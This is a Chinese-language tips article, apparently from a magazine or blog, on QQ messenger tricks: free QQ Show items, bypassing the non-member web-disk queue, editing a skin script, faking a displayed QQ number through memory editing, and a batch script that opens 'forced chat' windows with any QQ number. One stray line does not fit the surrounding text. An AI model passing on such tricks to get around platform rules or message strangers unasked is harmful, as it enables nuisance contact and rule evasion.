



要点击QQ主面板上的“菜单”按钮，在弹出的菜单项目中选择“好友与资料”，在子选项中选择“更新好友”即可（图3、图4）。这样只是恢复了好友，但是分组不会恢复，恢复的好友存在于“我的好友”一栏中，这样一来，剩下的就全靠你自己整理了。

## 网络课堂QQ秀








加一个人为好友，最先映入眼帘的便是对方的QQ秀，而看到我们好友都换了漂亮帅气的QQ秀，你有没有动心呢？可是QQ币总不是太多人能消费得起的，下面大家就跟我一起去淘点免费QQ秀吧。

#### 一、免费QQ秀

打开QQ秀商城，我们搜索免费QQ秀，虽然搜索出来的QQ秀都是0.0Q币，但竟然都是红钻专用的，未免有点遗憾。不要着急，其实QQ秀商城还为我们准备了“免费的午餐”呢，有许多普通用户免费的QQ秀，关键看我们能不能找到了。

进入QQ秀官方网站，登录你的QQ号，在刚才搜索免费QQ秀的地方直接搜索免费QQ秀的名称（免费QQ秀的名称在以下提供）。例如：输入“真心真爱”，点击“搜索QQ秀”（图1），很快便搜到了此商品，看，是不是0.0Q币（图2）？好了，购买即可（图3），以下就不用我再多说了吧。你一定迫不及待想去试一下了，别着急，其实像这样的免费QQ秀还有很多呢。搜索这些QQ秀的名称，方法与上述类似，这些都是免费的哦，而且时间为半年，怎么样，够你爽一下了吧！


### 免费的半年装饰品：

- 真心真爱
- 泼墨
- 心灯
- 我愿意
- 嫁给我
- 浪漫新娘捧花
- 侠义之链
- 正与邪
- 上映公告
- 变身COOL
- 与你同在
- love狗狗

### 免费半年表情和发型：

- 活力发型
- 正与邪

### 免费半年背景：

- 甜甜的感觉
- 给你的礼物
- 爱的纪念词册
- 玫瑰爱恋
- 爱之时
- 12生肖
- 蜘蛛侠
- 泼墨

#### 二、时事热点QQ秀

QQ秀商城有个“时事热点”，全部是免费的15天有效期QQ秀，我们可以到“推荐”——“时事热点”中查看（图4）。这里的QQ秀虽然时间短，但毕竟也是免费的，并且没有购买限制，没有了可以再买（图5）。点击“支持”即可，也可以邀请朋友。这里的QQ秀每天都有更新，大家多多关注吧。

#### 三、活动QQ秀

许多公司为了广告，经常会和腾讯联合举办很多活动，很多活动都有免费的QQ秀拿。因为活动具有时效性，所以这里就不再列举了。当有这样的活动时，许多网站都会有公布，大家多多注意就好了。

## 1.3 QQ网络硬盘不用排队

QQ网络硬盘随身使用确实非常方便，但是腾讯却对会员偏心，而普通用户登录网络硬盘还需要排队，有急事的时候确实令人着急，看着进度条像蜗牛一点一点地向前爬，令人抓狂（图1）。而有一个方法可以使非会员照样轻轻松松登录QQ网络硬盘，此方法屡试不爽。

我们需要用到的只有TM，从QQ上切换到TM上去。用TM直接打开网络硬盘就可以了，不需任何等待即可打开（图2）。而且TM上的网络硬盘空间是普通QQ用户的两倍，怎么样，偷着乐去吧。其实还有一个方法就是替换文件，需要到网上下载补丁，因为补丁有时效性，这里就不再多费笔墨了。其实用补丁不如用TM，补丁是没有32MB的空间的！





## 1.4 群公告显示最新帖子

大家知道每个群都有一个群空间论坛，在群空间论坛可以发布文章（图1），那么你想不想让发布的这些文章像图2那样也显示在群公告里呢？看，群公告下面的最新帖子是不是既直观又方便，可以让群中的成员轻松查看到最新帖子的内容。下面就跟我一起去打开这个功能吧！

首先进入群空间，在右上角找到“群空间管理”（图3）。我们需要在这里做一下设置，依次打开：空间首页 -> 群空间管理 -> 权限管理，然后设置为公开群（图4），只有管理员有这个权利，确认修改（图5）。如果你群空间有帖子的话，现在再打开群，刷新一下，是不是出现了？







公开群与非公开群的区别是：群可以分为公开群和非公开群。在非公开群中，群空间中的所有信息都只有群内成员可以看到。在公开群中，群讨论版、群相册信息和群成员列表，群外用户可以看到；但是群的通讯录、名片等信息，仍然只对群内成员开放。

## 变关闭为最小化



我们所使用的许多软件的关闭按钮，程序默认都是将其最小化到系统托盘，而不是退出。你有没有想过让QQ也有这个功能呢？那下面我们就来自己动手，为QQ加上这个贴心的功能吧！

首先进入QQ目录下的皮肤文件NewSkins，一般默认的QQ皮肤都是QQ2007，那么你就进入QQ2007的目录。如果你更换过皮肤，就进入更换皮肤的那个目录。我们找到VBScript.vbs文件，这个文件就是对QQ上面一些按钮的设置。



在VBScript.vbs上右键鼠标选择编辑，使用记事本打开VBScript.vbs，按下“Ctrl+F”组合键，弹出查找对话框，输入“Sub CloseButton”，单击“查找下一个”按钮（图1），然后在查找到的代码下方，将“Window.ExeCommand”后的数字“3”修改为“2”，如下：

```vb
Sub CloseButton_onClick()
    Window.ExeCommand 1,3
End Sub

改为
```

```vb
Sub CloseButton_onClick()
    Window.ExeCommand 1,2
End Sub
```

这里的2就是最小化的意思，这段代码的意思也就是单击关闭按钮后执行最小化命令。保存好后，再次开启QQ就能看到效果了。无论怎样点击叉号都不能关闭，要想关闭QQ，就用菜单里的退出吧（图2）！

#### 我的QQ号码是“10000”

大家都知道10000这个QQ号是腾讯的系统QQ号码，那么我们看下如图1所示的截图，注意看QQ号码，是不是吃了一惊？这可绝对不是PS做的，那么我的原QQ号383605010怎么变成10000了？

其实这还是我原来的QQ，只不过就是QQ号码被修改成了10000而已，其他功能以及好友都没变。说白了，就是只能在自己的电脑上过过瘾罢了。当然，这也能满足一下我们的虚荣心，发截图拿出去是不是很有面子。接下来就让我们大家都变成10000号吧，甚至你想变成什么号就变什么号！



需要的工具为金山游侠（网上有很多人说要使用铭扬游戏修改器，但是那款软件貌似有很多插件，怕怕）。也许你用过金山游侠改过游戏，那么这篇文章对你来说就很简单了，就是像改单机游戏一样来改你的QQ号码。好了，先打开金山游侠，然后打开你的QQ。QQ打开后按小键盘上的*键，即可呼唤出金山游侠的修改界面（图2），在“查找”中填写你的QQ号码，然后按“搜索”进行查找。



金山游侠将自动查找所修改数值的内存地址，很快显示出结果，如图3，一共有42个结果（注意：刚开启QQ的时候搜索到的结果最少，便于以后的修改；如果QQ开启过长时间，那么搜索到的结果将变得繁多，不利于修改）。点击确定后将返回查找。




找到数据后，我们在数据上双击鼠标左键将弹出修改窗口（图4）。大家看到没有？“数值”显示的就是我们刚刚查找的QQ号码，下面我们将此号码换为其他任意号码，比如10000。“修改方式”以及其他“数据属性”均不必修改，直接确定。就这样多改几组数据，然后按ESC返回到QQ。打开个人设置，看你的QQ号码是否发生了变化。如果没有变化就再按*，多修改几组数据；现在按ESC返回看看（图5），是否你的QQ也变成了10000……


……邀请你的朋友来你家听听他们吧！

此方法修改的QQ仅为表象，但是实质还是你的QQ号码，重启QQ效果将会消失！其实金山游侠也是一个不错的游戏修改工具，我玩单机游戏可是必备金山游侠的哦。

修改原理：CPU、内存、硬盘之间会进行很复杂的数据交换，而其中最重要的就是内存对于各项数值的记录。很多数据都分配在内存中一个个地址空间里，你的QQ号码同样也存在于内存中。你开始查找一个数值时，游戏修改工具会对当前内存中的所有数据进行一次扫描，过滤出有哪些地址所存的是当前数值。然后，就可以对这个地址的数据按需要进行修改了。

#### 批处理制作强制聊天工具

大家上网的时候或许都见过QQ强制聊天工具。虽然我们很多人并不懂编程，但是我们了解了这个工具的原理后，也可以使用批处理轻松打造强制聊天工具。代码如下：


```bat
@Echo Off
:send
title QQ强制聊天
echo 欢迎使用QQ强制聊天工具！制作：飘零star
Set /p num=请输入对方的QQ号码:
if /I "%num%"=="n" Exit
start tencent://Message/?Uin=%num%
cls
Goto send
```


